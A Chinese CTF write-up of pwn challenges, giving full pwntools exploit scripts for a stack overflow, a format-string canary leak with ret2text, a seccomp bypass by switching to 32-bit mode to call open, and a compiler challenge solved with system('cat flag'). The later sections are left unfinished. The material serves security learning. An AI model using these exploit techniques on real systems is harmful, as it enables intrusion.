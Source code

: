 CrazyCat PWN

# Day1
## ezpwn
![[Pasted image 20250210232353.png]]
输入的值与DAT_00405068一样后便可以栈溢出。
![[Pasted image 20250210232500.png]]
答案是年度最佳astrobot。
![[Pasted image 20250210232539.png]]
可以找到backdoors，构造payload即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = True
if local:
	p = process('./ezpwn')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194eda1-f812-771e-9167-d804f8f8a76f')

ret = 0x40101a
backdoors = 0x401539
key = b'astrobot'
p.recvuntil(b'\x21\x0a')
p.send(key)
p.recvuntil(b'something:')
payload = b'A' * 0x58 + p64(ret) + p64(backdoors)
p.sendline(payload)
p.interactive()
```
shell:
![[Pasted image 20250210232813.png]]
## fmt_str
有backdoor，开启了canary，有格式化字符串漏洞，可以用该漏洞泄漏canary。
![[Pasted image 20250210232848.png]]
有两个有用的函数，第一个当地址为0x404068的值为0x56785678时便可以进入第二步，第二步则是简单的ret2text。
第一步用格式化字符串漏洞修改0x404068的值为0x56785678即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
	p = process('./fmt_str')
	pwnlib.gdb.attach(p, 'b *0x40127b')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194f07e-58cc-74dd-b653-4657c29d274e')  

backdoor = 0x4013df
change_addr = 0x404068
ret = 0x40101a

p.sendlineafter(b'Input:', b'%25$p')
p.recvuntil(b'0x')
canary = int(p.recv(16), 16)
log.info(f'canary: {hex(canary)}')

payload = fmtstr_payload(8, {change_addr: 0x56785678}, write_size='byte')
p.sendlineafter(b'Input:', payload)
p.recvuntil(b'first step!')

payload2 = b'a' * 0x88 + p64(canary) + b'b' * 8 + p64(ret) + p64(backdoor)
p.sendline(payload2)

p.interactive()
```
shell:
![[Pasted image 20250210233359.png]]
## shellcode
![[Pasted image 20250210233720.png]]
可以看到是一个开启了sandbox的shellcode题。
![[Pasted image 20250210233928.png]]
sandbox仅允许使用rw,可以看到是缺o的，该怎么办呢，搜索后发现fstat函数的系统调用0x5是32位的open函数的系统调用，所以思路就是用mmap开辟一个新的空间来存放一段32位的程序然后在里面调用32位的open，然后再切换回64位调用read和write函数。
exp:
```python
from pwn import *
from wstube import websocket

# context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
	p = process('./shellcode')
	pwnlib.gdb.attach(p, 'b printf')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194f082-499c-7e79-aaec-7f4576faa685')

elf = ELF('./shellcode')
buf = elf.bss()
print(hex(buf))

shellcode = '''
	/* 恢复rsp */
	mov rsp, rdx
	add sp, 0x100
	
	/* mmap(0x40404040, 0x7e, 7, 34, 0, 0) */
	/* 一定要搞清楚哪个寄存器存哪个参数，不然怎么错的都不知道 */
	mov rdi, 0x40404040
	mov rsi, 0x7e
	mov rdx, 7
	mov rax, 9
	mov r8, 0
	mov r9, 0
	mov r10, 34
	syscall
	
	/* read(0, 0x40404040, 0x100) */
	mov rdi, 0
	mov rsi, 0x40404040
	mov rdx, 0x100
	mov rax, 0
	syscall
	
	/* mode_64 -> mode_32 */
	push 0x23
	push 0x40404040
	retfq
'''

shellcode_x86 = '''
	mov esp, 0x40404140
	push 0x67616c66
	push esp
	pop ebx
	xor ecx, ecx
	mov eax, 5
	int 0x80
	mov ecx, eax
'''
shellcode_flag = '''
	push 0x33
	push 0x40404089
	retfq
	
	mov rdi, rcx
	mov rsi, rsp
	mov rdx, 0x70
	xor rax, rax
	syscall
	
	mov rdi, 1
	mov rax, 1
	syscall
'''
shellcode = asm(shellcode, arch='amd64', os='linux')
shellcode_flag = asm(shellcode_flag, arch='amd64', os='linux')
shellcode_x86 = asm(shellcode_x86)
p.sendlineafter('shellcode:', shellcode)
pause()
p.sendline(shellcode_x86 + 0x29 * b'\x90' + shellcode_flag)

p.interactive()
```
shell:
![[Pasted image 20250210233827.png]]
## walt改造的编译器
是一个自制的编译器，编译后有一千多行代码不好逐行分析，大致作用就是输入一段c的代码然后会编译他并运行，我们直接输入
```c
int main()
{
	system("cat flag");
	return 0;
}
```
即可。题目只是看着唬人。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
	p = process('./walt')
	pwnlib.gdb.attach(p, 'b puts')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194ef0d-e305-79ab-b861-72f478ac41cf')

test = r'''int main(){system("cat flag");return 0;}'''

# p.recvuntil(b'This is crazy!!!')
p.sendline(test)

p.interactive()
```
shell:
![[Pasted image 20250210234818.png]]

# D2
## Berial
![[Pasted image 20250211191107.png]]
可以看到有栈溢出但不多，可以猜到要用栈迁移，checksec后发现打开了pie，那么我们就需要获取很多东西，一个是每次随机生成的栈地址，一个是
## unjoke

## Natro
不会